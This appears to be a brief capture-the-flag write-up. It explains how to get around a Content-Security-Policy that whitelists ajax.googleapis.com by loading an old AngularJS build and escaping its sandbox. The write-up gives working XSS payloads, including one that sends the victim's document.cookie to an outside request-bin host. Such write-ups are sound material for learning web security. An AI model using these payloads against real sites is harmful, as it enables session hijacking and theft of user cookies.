 # csp

On the second page, name and comment are vulnerable to XSS.

The CSP header is:

```http
Content-Security-Policy
    default-src https://www.google.com https://ajax.googleapis.com 'unsafe-eval'; style-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/; font-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/;object-src 'none'
```

We can download the angular.js file from `https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js` and then use the following payload to bypass the CSP:

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script><div ng-app ng-csp id=p ng-click={{constructor.constructor("alert(1)")()}}>
```

To get the flag, we can use the following payload:

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script><div ng-app ng-csp id=p ng-click={{constructor.constructor("window.location.href='https://some.request.bin.site?cookie='+document.cookie")()}}>
```
